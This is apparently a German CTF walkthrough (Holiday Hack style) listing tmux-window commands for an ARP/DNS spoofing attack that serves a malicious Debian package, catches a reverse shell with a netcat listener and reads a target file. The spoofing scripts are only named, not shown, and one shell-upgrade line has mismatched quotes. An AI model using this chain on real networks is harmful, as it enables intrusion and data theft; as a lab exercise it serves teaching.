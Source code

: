 Erzeuge 5 tmux-Fenster (Ctrl+B C).

Erstes tmux-Fenster:

<pre><code class="bash">tcpdump -nn -i any</code></pre>

Zweites tmux-Fenster:

<pre><code class="bash">cd scripts
:> dns_resp.py
:> arp_resp.py
vim dns_resp.py
:set paste
(-> auf deinem System: cat dns_resp.py | xclip -sel clip 
 -> paste dns_resp.py into this file)
:wq!
vim arp_resp.py
:set paste
(-> auf deinem System: cat arp_resp.py | xclip -sel clip
 -> paste arp_resp.py into this file)
chmod u+x *.py
cd ..
vim cdb.sh
:set paste
(-> auf deinem System: cat create_deb_malware.sh | xclip -sel clip)
 -> paste this into cdb.sh)
:wq!
chmod u+x cdb.sh
./cdb.sh
</code></pre>

Drittes tmux-Fenster:

<pre><code class="bash">cd scripts/
./dns_resp.py
</code></pre>

Viertes tmux-Fenster:

<pre><code class="bash">nc -nlvp 8080</code></pre>

Fünftes tmux-Fenster:

<pre><code class="bash">cd scripts/
./arp_resp.py</code></pre>

Viertes tmux-Fenster:

Eine Reverse-Shell sollte erzeugt worden sein.

<pre><code class="bash">python3 -c "import pty; pty.spawn("/bin/bash")'
cat NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt | less
</code></pre>

<div style="padding:56.25% 0 0 0;position:relative;"><iframe src="https://player.vimeo.com/video/499182451" style="position:absolute;top:0;left:0;width:100%;height:100%;" frameborder="0" allow="autoplay; fullscreen" allowfullscreen></iframe></div><script src="https://player.vimeo.com/api/player.js"></script>
<p>Videobeschreibung unter <a href="https://player.vimeo.com/video/499182451">https://player.vimeo.com/video/499182451</a></p>
